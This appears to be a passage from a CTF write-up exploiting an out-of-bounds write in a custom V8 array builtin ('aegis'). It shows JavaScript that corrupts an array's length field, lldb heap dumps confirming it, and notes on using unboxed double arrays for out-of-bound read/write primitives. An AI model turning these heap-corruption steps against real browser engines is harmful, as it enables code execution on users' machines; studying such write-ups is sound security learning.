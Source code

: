 

As you can see, `aegis` function takes 2 arguments.

First is index property and Second is value property.

There is no array boundary check, so you can easily out-of-bound write to your array object.



As array's elements and internal properties are located in same Heap, you can easily corrupt some array's length property.

Let's take a look at following code.

```javascript
// Unboxed double array
let victim = [1.1, 2.2, 3.3];
let leaked = [{}, {}, {}];
arr.aegis(6, 8.691694759794e-311)
```



Above code will modify victim's length property from 3 to 0x1000.



```
(lldbinit) x/40gx 0x2ba4b3c8b349-1-0x40
0x2ba4b3c8b308: 0x00002ba420318079 0x00002ba42031f701
0x2ba4b3c8b318: 0x00002ba469d004a9 [0x00002ba469d01481] <- victim's elements start location
0x2ba4b3c8b328: 0x0000000300000000 [0x3ff199999999999a] <- first index
0x2ba4b3c8b338: 0x400199999999999a 0x400a666666666666
0x2ba4b3c8b348: 0x00002ba479302fa1 0x00002ba469d00bf9
0x2ba4b3c8b358: 0x00002ba4b3c8b321 [0x0000000300000000] <- Length Property of victim :)
```



By modifying victim's length property, now we have complete out-of-bound R/W primitives.

To successfully read/write value from/to v8 engine, you need to set-up victim array as `unboxed double array`.

The term `unboxed` means raw value and `boxed` means wrapper object for raw value.



```
[Unboxed value]
0x2ba4b3c8b338: 0x400199999999999a 0x400a666666666666

[Boxed value]
0x155268e4b310: 0x00001552ab91f5d9 0x00001552ab91f5e9
(lldbinit) x/4gx 0x00001552ab91f5d9-1
0x1552ab91f5d8: 0x0000155279780539 0x3ff199999999999a
0x1552ab91f5e8: 0x0000155279780539 0x400199999999999a
```



By using unboxed double array, we can set directly arbitrary value to some victim object and directly read raw value from victim.

